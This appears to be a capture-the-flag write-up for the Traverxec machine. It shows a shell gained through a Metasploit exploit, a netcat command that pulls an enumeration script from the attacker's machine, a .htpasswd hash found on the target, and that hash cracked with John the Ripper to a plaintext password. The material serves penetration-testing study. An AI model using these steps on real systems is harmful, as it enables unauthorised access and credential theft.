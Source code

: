 ## Initial Foothold
Wow, the metasploit exploit actually worked. This doesn't normally happen? I guess that's our initial foothold in the bag.
```
www-data@traverxec:/var$ ls
ls
backups  cache  lib  local  lock  log  mail  nostromo  opt  run  spool  tmp
www-data@traverxec:/var$ 
```
<br />

## Getting User
Let's do some initial enumeration. For some reason the upload command in metasploit isn't working, and wget doesn't work either, so let's try netcat.
```
www-data@traverxec:/tmp$ nc 10.10.xx.xx 4444 > LinEnum.sh
```
```
$ nc -lv -p 4444 < LinEnum.sh
```
<br />

Cool, that worked. So let's begin our initial enumeration on the server itself.
```
www-data@traverxec:/tmp$ sh LinEnum.sh

...

-e [-] htpasswd found - could contain passwords:
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
-e

...
```
<br />

A hash found in one of the nostromo .htpasswd files? Interesting, let's crack it.
```
$ echo 'david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/' > david.hash
$ john david.hash --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"                         
Use the "--format=md5crypt-long" option to force loading these as that type instead                                  
Using default input encoding: UTF-8                                                                                  
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])                                
Will run 12 OpenMP threads                                                                                           
Press 'q' or Ctrl-C to abort, almost any other key for status                                                        
Nowonly4me       (david)                                                                                             
1g 0:00:00:24 DONE (2019-12-30 22:48) 0.04144g/s 438409p/s 438409c/s 438409C/s NuiMeanPoon..Norri83                  
Use the "--show" option to display all of the cracked passwords reliably                                             
Session completed
```
<br />
